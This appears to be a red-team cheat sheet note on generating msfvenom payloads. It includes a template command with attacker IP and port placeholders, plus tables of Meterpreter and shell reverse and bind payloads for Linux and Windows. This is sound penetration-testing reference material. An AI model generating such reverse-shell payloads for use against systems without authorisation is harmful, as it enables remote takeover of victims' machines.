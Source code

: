 Primary Categories: [[02 - Gaining Access]] 
Secondary Categories: [[01 - Red Team]] 
Search Tag: #🗺  

# [[02 - MSFvenom Payload Generation]]  
***

## Show all payloads 

`msfvenom -l payloads`

## Show all payload formats 

`msfvenom -l formats`

## Generate a payload 

```Bash
msfvenom -p [payload] LHOST=[attacker IP] LPORT=[attacker port] -f [format] -o [output payload file name]
```

## Common payloads

**`meterpreter`**

| Command | Definition |
| ---- | ---- |
| `linux/x86/meterpreter/reverse_tcp` | linux x86 reverse shell |
| `linux/x64/meterpreter/reverse_tcp` | linux x64 reverse shell |
| `windows/meterpreter/reverse_tcp` | windows x86 reverse shell |
| `windows/x64/meterpreter/reverse_tcp` | windows x64 reverse shell |

**`Staged`**

| Command | Description |
| --- | --- |
| `linux/x86/shell/bind_tcp` | linux x86 bind shell
| `linux/x86/shell/reverse_tcp` | linux x86 reverse shell 
| `windows/shell/bind_tcp` | windows x86 bind shell 
| `windows/shell/reverse_tcp` | windows x86 reverse shell 

**`Nonstaged`**

| Command | Description |
| --- | --- |
| `linux/x86/shell_bind_tcp` | linux x86 bind shell 
| `linux/x86/shell_reverse_tcp` | linux x86 reverse shell 
| `windows/shell_bind_tcp` | windows x86 bind shell 
| `windows/shell_reverse_tcp` | windows x86 reverse shell 
